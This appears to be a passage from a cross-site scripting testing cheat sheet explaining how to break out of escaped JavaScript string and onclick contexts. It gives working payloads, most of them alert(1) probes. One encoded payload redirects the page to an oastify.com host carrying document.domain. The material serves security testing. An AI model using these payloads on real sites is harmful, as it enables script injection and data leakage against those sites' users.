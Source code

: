 ```html
</script><img src=x onerror=alert(1)>
```

If angle brackets are encoded, the following will terminate the existing string and close the statement, then comment out the rest of line. Since the input is within <\script> tags, the payload gets executed as JS:

```javascript
'; alert(1) //
```

If angle brackets and double quotes are encoded and single quotes are escaped, attempt the following. The escape character itself may not be escaped, so when you supply it in the payload, the app ends up escaping the escape character instead of the single quote. Since the input is already within \<script> tags, the alert() will execute.

The payload may be:

```javascript
\'; alert(1)//
```

And the end result would be:

```javascript
\\';alert(1)//
```

If there is XSS on an onclick event with angle brackets, double quotes and single/backslashes escaped, attempt the following. You may be able to bypass server-side validation by submitting HTML entities. The browser will decode the HTML entities before the JavaScript is executed, which will break out of the context and execute the JavaScript.

As an example:

```html
<a onclick="var x=z; x.y('https://user-input');" >
```

And some identification payloads:

```javascript
&apos; ) ; alert(1) ;//
&apos; -alert(1)- &apos;
```

In this scenario, the app may be encoding tags/quotations and escaping single quotes and backslashes. You can bypass this by HTML encoding the payload. For example, the original payload:

```javascript
') ; document.location = 'https://y51tyh5h.oastify.com/?x=' + document.domain ; //
```

And an HTML encoded payload:

```html
&apos;) ; &#x64;&#x6f;&#x63;&#x75;&#x6d;&#x65;&#x6e;&#x74;&#x2e;&#x6c;&#x6f;&#x63;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x20;&#x3d;&#x20;&#x27;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x74;&#x6a;&#x67;&#x38;&#x75;&#x7a;&#x30;&#x71;&#x6f;&#x6a;&#x63;&#x38;&#x2e;&#x6f;&#x61;&#x73;&#x74;&#x69;&#x66;&#x79;&#x2e;&#x63;&#x6f;&#x6d;&#x2f;&#x3f;&#x78;&#x3d;&#x27;&#x20;&#x2b;&#x20;&#x64;&#x6f;&#x63;&#x75;&#x6d;&#x65;&#x6e;&#x74;&#x2e;&#x64;&#x6f;&#x6d;&#x61;&#x69;&#x6e; ; //
```

